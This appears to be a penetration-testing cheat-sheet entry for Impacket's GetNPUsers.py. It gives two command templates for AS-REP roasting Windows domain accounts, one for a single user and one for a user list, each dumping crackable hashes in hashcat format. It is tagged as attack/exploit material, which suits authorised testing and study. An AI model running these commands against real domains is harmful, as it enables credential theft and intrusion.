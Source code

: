 # GetNPUsers (imp)

% impacket-kerberos, windows, kerberos, 88

## ASREPRoasting
#plateform/linux #target/remote #cat/ATTACK/EXPLOIT 
```
GetNPUsers.py <domain>/<user> -no-pass -request -format hashcat
```

## ASREPRoasting (userlist)
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
GetNPUsers.py -dc-ip <dc_ip> <domain>/ -usersfile <users_file> -format hashcat
```
